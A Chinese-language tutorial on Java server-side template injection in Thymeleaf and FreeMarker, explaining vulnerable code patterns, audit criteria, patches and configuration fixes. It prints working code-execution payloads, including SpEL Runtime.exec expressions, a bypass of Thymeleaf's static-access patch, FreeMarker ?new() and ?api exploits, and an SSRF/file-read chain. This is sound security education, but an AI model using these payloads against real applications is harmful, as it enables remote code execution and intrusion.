


# Java模板注入

## 1. 引言

&emsp;&emsp;在Java Web开发的发展中，从起初流行的JSP+Servlet、Struts MVC 到 SpringMVC 乃至 RESTful式的前后端分离，这个过程中，逐渐强调业务逻辑与视图逻辑的分层、降低代码耦合。当前端视图（前端用户页面展示）交由后端生成时，就会存在模板引擎渲染视图的这个过程。目前主流的开发模式为Spring Framework，所以本文主以SpringMVC为代码基础来对模板注入问题进行讲解，但底层的模板引擎是通用的，问题也是共性的。

&emsp;&emsp;大家可能对 SpringBoot 一词常有听说，不免认为 SpringBoot 是“web框架”，但 SpringBoot  只是一个集成方式且不表示特定框架，其中 springboot-web 则为 tomcat容器+springmvc。所以，当我们说spring mvc，自然也包括springboot-web。

## 2. 漏洞发生的场景

&emsp;&emsp;模板注入问题与其他注入问题（如SQL注入）的问题根源都是一样的，即`用户输入`与`业务代码`二者的边界问题。一方面，开发者缺乏对相关库的正确使用的认识，错误地让用户可以控制模板内容或名称，导致用户的输入获得 模板代码 一样的功能；另外一方面，模板引擎为了提供各种特性，模板代码可以拥有代码执行的能力。当然，伴随着模板注入问题可能还有XSS，本文重点不在于此。

&emsp;&emsp;漏洞出现在 模板视图名称、模板内容 两个不同地方，有的模板引擎为了方便开发者，会在视图名称(ViewName)中提供表达式语法能力支持，开发者可藉此实现灵活的业务功能；模板内容包含静态的页面数据(Template)与动态的模板对象(Model)，静态页面数据通常为类似HTML的文件内容，模板对象为Map数据形式，大多模板引擎使用中发生模板注入问题的原因就在用户可以控制页面数据这点上。

&emsp;&emsp;下面列出的是Java中几种模板引擎，前三者是最常见的，我们主要对Thymeleaf与Freemarker进行讲解。

- Thymeleaf
- FreeMarker
- Velocity 
- JFinal
- Beetl
- Handlebars
- Rocker
- Enjoy 

## 3. Thymeleaf

&emsp;&emsp;我们先从Thymeleaf讲起，先梳理SpringMVC关于 ViewName 这块的逻辑，让我们对SpringMVC有所理解，在业务逻辑与代码逻辑都清楚的情况下，我们就能更好地记忆相关知识。

### 3.1. 基础说明

[参考官方文档](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html#standard-expression-syntax)，对关键项进行讲解。

- Variable Expressons: `${...}` 变量表达式是在设定的上下文中，通过OGNL来执行其中的变量，在 SpringMVC 应用中则会使用SpringEL 来替换OGNL，二者语法十分相似

  - 变量：变量表达式可以直接获取变量的字段、调用变量的方法，并且系统内置了一些上下文变量，我们需要在SpEL文档中了解更多利用方式。
  - [SpEL的特性有很多](https://docs.spring.io/spring-framework/docs/4.3.10.RELEASE/spring-framework-reference/html/expressions.html#expressions-features)：Class expressions（通过T操作符来定义type，即表示Class）、Variables、Literal expressions ...

- Selection Variable Expressions: `*{...} `与变量表达式类似，只是上下文被局限在表达式中的对象

- Message Expressions: `#{...}` 文本表达式，其中可以包含多个变量表达式

  - ```html
    #{${welcomeMsgKey}(${session.user.name})}
    ```

- Link URL Expressions: `@{...}` URL表达式，专门用于URL，其中也可以包含变量表达式

- Fragment Expressions: `~{...}` 片段表达式，引用指定模板内容

  - **~{templatename::selector}**：引入指定模板的某个内容，可以通过selector来灵活指定部分内容
  - **~{templatename}**：直接引入该名称模板的所有内容

- [Preprocessing](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html#preprocessing)：Thymeleaf对所有表达式都提供了预处理功能，预处理是在正常执行表达式之前执行的表达式，预处理表达式前后通过下划线进行包裹，如 `__${expression}__`。

  


&emsp;&emsp;thymeleaf中默认使用缓存的模板文件来进行渲染，用户可关闭缓存功能，对应配置项为`spring.thymeleaf.cache`，所以默认情况下，我们在非fatjar的文件上传漏洞场景中无法利用到thymeleaf。

`o.t.e.TemplateManager#parseAndProcess`：该方法具体实现了加载并渲染模板文件的功能，可以看到，当缓存功能开启情况下会将第一次解析到的结果进行缓存；这里的 parseStandalone 最终通过 SpringResourceTemplateResource.read 读取了模板文件。


### 3.2. demo速览

&emsp;&emsp;在spring-boot-web中，我们可以通过以下配置自动引入thymeleaf，spring-boot在启动时会检查相关注解，自动添加thymeleaf到模板引擎列表中。针对spring3、4、5版本，thymeleaf都进行了适配，但最基础的核心库都是用的 org.thymeleaf:thymeleaf。

```xml
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
```

&emsp;&emsp;这里使用的测试demo为 SSTIDemo/Thymeleaf。

&emsp;&emsp;Thymeleaf加载模板文件的默认路径为 classpath:/templates/，且文件后缀默认为`.html`，下面的代码返回了 welcome 字符串，模板引擎将此作为模板名称，在加载 welcome.html 后使用上下文与model数据对其进行渲染。

```java
    @GetMapping("/index")
    public String index(Model model) {
        model.addAttribute("message", "happy birthday");
        return "welcome";
    }
```

welcome.html文件内容如下：

```html
<!DOCTYPE HTML>
<html>
<div th:fragment="header">
    <h3>Spring Boot Web Freemarker Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

页面输出如下：


&emsp;&emsp;实际上，在以上这种正常用法下，不会存在Thymeleaf模板注入问题，而由于开发者的开发习惯，不同于freemarker、velocity等，通常Java开发者很少会在spring项目中单独引入org.thymeleaf:thymeleaf 来进行使用（单独引入的情况有的开发者会将用户输入直接作为模板文件内容），所以在模板文件及内容这块，我们在代码审计中很少关注到它。

&emsp;&emsp;但由于Thymeleaf对视图名称提供了灵活的业务功能，即将这里的 ViewName 视为 前文所说的 `Fragment Expressions`，因此，当这里的 ViewName可被用户控制时则用户可以执行SpEL表达从而进行代码执行。当然，有的人会将该问题称为 spring-view manipulate，但稍微笼统地称呼为SSTI无不可。

### 3.3. 漏洞场景与原理

我们需要关注两点：

1. 什么情况下的Mapping方法存在该模板注入漏洞，如何审计出相关漏洞；
2. POC如何构造的，这么构造的原因。

下面我们讲讲thymeleaf中关键的代码流程，并由此回答以上两个问题。

#### 选择解析器

&emsp;&emsp;最初的servlet与jsp的web开发中，重定向与转发是其中比较基础的概念，重定向即让用户浏览器跟随另外一个URL进行页面跳转，转发forwar即在服务器后台就完成servlet的跳转。spring mvc继承了这一功能，在后台接口Mapping方法中，你可以通过返回  “redirect:url” 、“forward:mapping”分别完成重定向与转发功能。spring默认的view resolver中的InternalResourceViewResolver就包含了对这些情况的处理。

&emsp;&emsp;spring通过自动装配将thymeleaf添加到了viewResolvers列表中，而thymeleaf的优先级是最低的（ThymeleafViewResolver.order = Integer.MAX_VALUE），所以重定向与转发的视图名不会走到thymeleaf解析逻辑中。当然，thymeleaf本身也有对重定向与转发进行处理，即便没有spring默认的解析器，后续的逻辑也是如此。

&emsp;&emsp;因此 ，我们可以得到有如下条件：

- Mapping方法有返回值且为String时，ViewName前缀不能为 “redirect:”重定向、“forward:”转发。


&emsp;&emsp;response类型入参与 ResponseBody 注解、RestController 注解会让spring认为该Mapping方法已经处理了输出，后续就不会使用调用模板解析器。

&emsp;&emsp;具体来看，response参数据在获取过程中会将 requestHandled 标记为 true，但这只对无返回值的方法起作用。无返回值的方法包括void类型与返回null值的情况。这些注解都会使得spring会转为调用 RequestResponseBodyMethodProcessor 来处理Mapping方法的返回，最终也导致requestHandled 标记为 true。

`ServletInvocableHandlerMethod.invokeAndHandle`：这里得invokeForRequest会对Mapping参数进行获取，response类型参数会导致 requestHandled为true，但如果return不为null则后续会将其改为false；如果使用了ResponseBody 注解、RestController 注解，则后续会使用RequestResponseBodyMethodProcessor对象的handleReturnValue。


因此，有如下结论：

- Mapping方法无论有无返回值时，所在类不能为`@RestController`注解，Mapping方法不能有`@ResponseBody`注解
- Mapping方法无返回值时，入参不能有respone类型参数，包括 ServletRespone、OutputStream、Writer。


总结得到在下面这些情况中我们可以设置ViewName，即这些情况下的数据如果我们可以控制则存在漏洞：

- Mapping方法返回的字符串
- Mapping方法无返回值，即void或null，URI路径将作为ViewName
- Mapping方法中通过ModelAndView.setViewName设置视图名称

我们可以通过代码扫描工具来发现此类漏洞，如codeql有关于此的[规则SpringViewManipulationLib](https://github.com/github/codeql/blob/main/java/ql/src/experimental/Security/CWE/CWE-094/SpringViewManipulationLib.qll#L124)，当然，人工审计也是可以的。


#### 解析视图

&emsp;&emsp;模板的渲染输出在springmvc中表现为这里的View.render，render中包括视图名称的解析处理与具体的模板引擎解析模板文件，在整个流程中可以获取模型数据与上下文数据。


`o.t.s.v.ThymeleafView#renderFragment`：这里先判断视图名称是否含有 fragment，即片段，如果有，则将其视为Fragment Expression并继续进行表达式解析，而后续代码将通过正则`//_//_(.*?)//_//_` 来提取${expr} 变量表达式，也就是我们前文所说的预处理功能，然后最终通过SpEL引擎进行解析，这点我们在开头也有提到。 最后的调用 process 进行具体的模板渲染，也走到我们前面说的 `TemplateManager.parseAndProcess` 。



&emsp;&emsp;从本小节我们可以知道，我们的POC需要让视图名称输出为 `::__${expr}__`形式，即利用fragment expression的selector + 预处理 特性。

&emsp;&emsp;另外，由于 DefaultRequestToViewNameTranslator.transformPath 中会对带有“.”点号的URI进行处理，即将其截取为后缀名，所以，我们的漏洞如果出现在URI路径中，需要在末尾加上点号，避免被spring处理掉了。

#### 小结

&emsp;&emsp;我们汇总上面的内容，有如下总结，该总结可用于代码审计：

- Mapping方法有返回值时，ViewName前缀不能为 “redirect:”重定向、“forward:”转发

- Mapping方法无论有无返回值，所在类不能为`@RestController`注解，Mapping方法不能有`@ResponseBody`注解
- Mapping方法无返回值时，入参也不能有respone类型参数，包括 ServletRespone、OutputStream、Writer。

- 在下面这些情况中我们可以设置ViewName：

  - Mapping方法返回的字符串

  - Mapping方法无返回值，即void或null，URI路径将作为ViewName

  - Mapping方法中通过ModelAndView.setViewName设置视图名称（这种情况下即便requestHandled为true也能触发模板引擎）

- 对于Payload的构造：

  - 让视图名称输出为 `::__${expr}__` 形式
  - URI路径作为视图名称时，Payload末尾需要添加点号

  

具体的测试案例可以查看 `SSTIDemo/Thymeleaf/src/main/java/com/test/thymeleaf/TestController.java`

### 3.4. 防护情况

&emsp;&emsp;需要注意的是，在spring高版本中对URI的检测越来越严格，所以URI路径下的模板注入问题在高版本中不一定能成功利用。

&emsp;&emsp;在 `>=thymeleaf-spring5-3.0.12.RELEASE`版本中，官方添加了[补丁](https://github.com/thymeleaf/thymeleaf/commit/8add4fd8b8840241a5e50598e8f202d77215ea52)用于防护该模板注入问题。在 第一个修复版本中存在重复URL解码导致绕过的问题。

&emsp;&emsp;补丁中的关键方法为 checkViewNameNotInRequest，整个代码的逻辑为，将viewName去除空白字符并小写后得到vn字符串，如果vn变量包含`# ~ * @ $`五种字符种的任意一种则判断vn含有表达式（这里对应我们前面说的几种表达式类型）。后面接着 检查URI路径、请求参数 这些数据pack后的值中是否包含vn字符串，如果包含则抛出异常。

&emsp;&emsp;这样看来，只有当参数数据不是标准的spring request形式时这个补丁才会失效，如数据为JSON格式。

```java
//org.thymeleaf.spring5.util.SpringRequestUtils
//thymeleaf-spring5-3.0.15.RELEASE-sources.jar!/org/thymeleaf/spring5/util/SpringRequestUtils.java

    public static void checkViewNameNotInRequest(final String viewName, final HttpServletRequest request) {

        final String vn = StringUtils.pack(viewName);

        if (!containsExpression(vn)) {
            // We are only worried about expressions coming from user input, so if the view name contains no
            // expression at all, we should be safe at this stage.
            return;
        }

        boolean found = false;

        final String requestURI = StringUtils.pack(UriEscape.unescapeUriPath(request.getRequestURI()));
        if (requestURI != null && containsExpression(requestURI)) {
            // View name contains an expression, and it seems the path does too. This is too dangerous.
            found = true;
        }

        if (!found) {
            final Enumeration<String> paramNames = request.getParameterNames();
            String[] paramValues;
            String paramValue;
            while (!found && paramNames.hasMoreElements()) {
                paramValues = request.getParameterValues(paramNames.nextElement());
                for (int i = 0; !found && i < paramValues.length; i++) {
                    paramValue = StringUtils.pack(paramValues[i]);
                    if (paramValue != null && containsExpression(paramValue) && vn.contains(paramValue)) {
                        // Request parameter contains an expression, and it is contained in the view name. Too dangerous.
                        found = true;
                    }
                }
            }
        }

        if (found) {
            throw new TemplateProcessingException(
                    "View name contains an expression and so does either the URL path or one of the request " +
                    "parameters. This is forbidden in order to reduce the possibilities that direct user input " +
                    "is executed as a part of the view name.");
        }

    }
```

&emsp;&emsp;另外，Thymeleaf官方为了加强自身表达的安全性，在`>=thymeleaf-spring5-3.0.12.RELEASE`版本中希望禁止用户new对象、禁止用户直接访问静态方法，我们可以在[SPELVariableExpressionEvaluator](https://github.com/thymeleaf/thymeleaf/commits/thymeleaf-spring5-3.0.15.RELEASE/thymeleaf-spring5/src/main/java/org/thymeleaf/spring5/expression/SPELVariableExpressionEvaluator.java) 的历史记录中看到相关补丁。

```java
            if (expContext.getRestrictInstantiationAndStatic()
                    && SpringStandardExpressionUtils.containsSpELInstantiationOrStatic(spelExpression)) {
                throw new TemplateProcessingException(
                        "Instantiation of new objects and access to static classes is forbidden in this context");
            }
```

&emsp;&emsp;绕过方法很简单，思路1为在T字符后添加空白字符即可绕过 containsSpELInstantiationOrStatic 对于 type 的检查

```
{T  (java.lang.Runtime).getRuntime().exec("calc")}
```

&emsp;&emsp;思路2为通过基本数据类型或其他对象来获取ClassLoader，其后获取目标Class并通过反射机制来调用相关方法：

```
''.getClass().forName('java.lang.Runtime').getRuntime().exec('calc')
```


## 4. FreeMarker

### 4.1 基础说明


这里对FreeMarker几个基础概念进行说明。

- [插值，interpolation ](https://freemarker.apache.org/docs/dgui_template_valueinsertion.html)：表示表达式被执行后的输出将作为替换内容
  - 文本类插值：`${expression}`
  - 数值类插值，已被官方备注为deprecated ： `#{expression}`
  - [方括号插值](https://freemarker.apache.org/docs/dgui_misc_alternativesyntax.html#dgui_misc_alternativesyntax_interpolation)，>=2.3.28生效：`[=expression]`
  
- 指令：

  - 宏指令与调用指令：表示全局通用的指令，“<#marco xx>”形式，相关指令可查阅官方文档 [Directive Reference](https://freemarker.apache.org/docs/ref_directive_alphaidx.html)。

  - [用户定义指令](https://freemarker.apache.org/docs/dgui_datamodel_types.html#dgui_datamodel_userdefdir)：需要通过上下文来定义的，调用形式为“<@box></@box>"。

- [函数方法](https://freemarker.apache.org/docs/dgui_datamodel_types.html#dgui_datamodel_method)：
  - 在表达式中，当上下文已经定义了一个 函数方法 类型的变量，在表达式中可以调用它，如  ${avg(3, 5)}。
  - 代码中自带了一系列[函数方法](https://freemarker.apache.org/docs/ref_builtins_alphaidx.html)。

&emsp;&emsp;freemark的模板引擎在选择是否对目标模板文件重新初始化这块上和JSP的逻辑是大体一致的，即目标文件未发生修改则不重新初始化模板对象，直接从缓存中拷贝获取。这样一来，在某些文件上传的场景下，我们可以修改模板文件从而达到RCE的目的，实际案例有“spring-boot非fatjar打包+文件上传”。

&emsp;&emsp;从下面的代码图片可以看到freemark的缓存加载逻辑：


### 4.2. demo速览

&emsp;&emsp;FreeMarker demo中，我们在maven的pom.xml配置中引入`spring-boot-starter-FreeMarker`，此时spring-boot会将FreeMarker加入到springmvc模板引擎列表中。

&emsp;&emsp;这里的`user` 方法返回了 user 字符串，即 ViewName为 user，FreeMarker将读取 user.ftl 模板文件并将其渲染，渲染时的模板对象则为这里的 model 变量。在FreeMarker中，如果开发者使用此模式来进行开发将不会有模板注入问题。

```java
// SSTIDemo/FreeMarker/src/main/java/com/test/FreeMarker/TestController.java 
    @RequestMapping("/user")
    public String user(User user,Model model) {
        model.addAttribute("user", user);
        return "user";
    }
```

下面则是给出的有漏洞的demo，该后台接口返回的文本将直接输出给用户。可以看到，用户的输入 templateContent ,直接作为 Template 对象的模板内容，即用户直接控制了模板文件内容。在实际漏洞中，开发者可能会有所封装，代码复杂一些。开发者之所以会这样使用的原因可能有，希望通过前端页面来动态修改网站模板文件从而动态修改网站主题网站页面，或是某些接口开发者希望通过通过用户的输入来动态修改模板（开发能力不足导致）。

```java
// SSTIDemo/FreeMarker/src/main/java/com/test/FreeMarker/TestController.java 
    @ResponseBody
    @RequestMapping("/vuln")
    public String test(String templateContent) throws IOException, TemplateException {
        Configuration cfg = new Configuration(new Version("2.3.23"));

        // api
        cfg.setAPIBuiltinEnabled(true);
        cfg.setDefaultEncoding("UTF-8");

        Template template = new Template(null, templateContent, cfg);

        Map<String, Object> templateData = new HashMap<>();
        templateData.put("msg", "hello world");

        StringWriter out = new StringWriter();
        template.process(templateData, out);
        out.flush();
        return out.getBuffer().toString();
    }
```

正常请求如下， resources/reqdemo/req1.txt：


&emsp;&emsp;用户输入作为模板文件内容或是被拼接进去，我们可以利用相关语法来进行RCE（后面再具体讲解如何利用），这里是demo展示：  resources/reqdemo/req2.txt 


### 4.3. 内置标签的利用

&emsp;&emsp;FreeMarker模板注入的漏洞利用需要通过其相关模板语法来实现，主要利用方式有两种，分别为 内置语法 new、内置语法 api。更旧的版本中可能有其他更多的利用方式。

#### build-in new

本节讲解 new 语法，[官方文档](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new)对此有些说明。而我们在了解业务逻辑的情况下看看代码，可以对整个漏洞有比较全面深入的认识。

&emsp;&emsp;下面的POC中，通过 [assign](https://freemarker.apache.org/docs/ref_directive_assign.html) 指令创建变量 var，var对象为通过 build-in new 语法创建的 TemplateModel 对象（step1），后续在dollar标签中以Expression的方式调用var对象（step2）。

```html
<#assign var="freemarker.template.utility.ObjectConstructor"?new()> ${var("java.lang.ProcessBuilder","calc").start()}
```

`f.c.NewBI.ConstructorFunction`（step1）：build-in new通过 ConstructorFunction 来实现，从代码可以了解到，被实例化的目标类需要为 TemplateModel 的子类，看起来FreeMarker希望通过这点来限制安全风险。另外 new 语法中可以传参，但只能为基本数据类型或上下文中的对象。最后在 exec 方法中使用目标类的构造函数来完成实例化。


`freemarker.core.MethodCall#_eval` （step2）：当var作为方法执行时，如果 var 对象且为 TemplateMethodModel则会通过执行其 exec 来完成本次表达式的执行。这里的 [marco 宏](https://freemarker.apache.org/docs/ref_directive_macro.html) 对漏洞利用没有价值，所以综合下来，我们需要检索 TemplateMethodModel 子类来枚举 build-in new下的利用手法。


step2: 实例化对象后就是想办法来调用它们，下图中，TemplateTransformModel为 user-defined directives类型，即通过“<@ var></@ var>”的形式来使用，与宏类似；TemplateMethodModel则表现得像一个方法，使用方式为  myMethod("foo", "bar")   。


new语法下有如下利用方式，其中JythonRuntime需要应用存在 org.python:jython-standalone 库 ：

```html
<#assign var="freemarker.template.utility.ObjectConstructor"?new()> ${var("java.lang.ProcessBuilder","calc").start()}

<#assign var="freemarker.template.utility.Execute"?new()>${var("calc")}

 <#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

#### build-in api

&emsp;&emsp;[api, has_api](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_buitin_api_and_has_api)为2.3.22中新增的内置方法，默认不开启（开发者开启的可能性较高），并且在版本 <=2.3.29 的情况下对build-in api方法使用没有限制，在2.3.30及之后版本中加入了过滤机制。

&emsp;&emsp;通过 build-in api 我们可以像访问API一样访问对象的相关字段、方法，通过在freemarker.ext.beans.BeanModel.get 打上断点，我们可以观察该对象的build-in api的获取情况。



&emsp;&emsp;相关过滤名单在[DefaultMemberAccessPolicy-rules](https://github.com/apache/freemarker/blob/v2.3.32/src/main/resources/freemarker/ext/beans/DefaultMemberAccessPolicy-rules) 中，且在 f.e.b.DefaultMemberAccessPolicy#loadMemberSelectorFileLines 方法中读取了该文件并进行过滤名单的初始化。


&emsp;&emsp;可以看到，在获取目标“api方法”时会先尝试获取相关过滤名单：


在已知上下文存在 user 对象的情况下，我们可以通过以下POC进行任意文件读取或是SSRF：

```html
<#assign uri=user?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("http://www.baidu.com").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

下面POC中，通过项目实例化的static  GSON对象来达到代码执行的目的：

```html
<#assign classLoader=user?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("com.test.freemarker.ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("calc")}
```

```java
public class ClassExposingGSON {

    public static Gson GSON = new Gson();
}

```


### 4.4. 防护问题 

**2.3.17**版本以后，官方版本提供了三种TemplateClassResolver，分别为 UNRESTRICTED_RESOLVER、SAFER_RESOLVER、ALLOWS_NOTHING_RESOLVER，我们可以通过以下配置来禁止new ObjectConstructor、Execute与JythonRuntime：

```java
 Configuration cfg = new Configuration(Configuration.VERSION_2_3_32);
 cfg.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);
```


`build-in api`并不能随意使用，必须在配置项`api_builtin_enabled`为`true`时才有效，而该配置默认为`false`。

```
cfg.setAPIBuiltinEnabled(true);
```


## 5. 结语

本文通过讲解两个典型的模板引擎的模板注入问题来让大家对这块有所理解，另外，在模板注入具体漏洞利用中我们可以通过加载类字节码的方式来执行我们自己的代码，从而注入内存马。

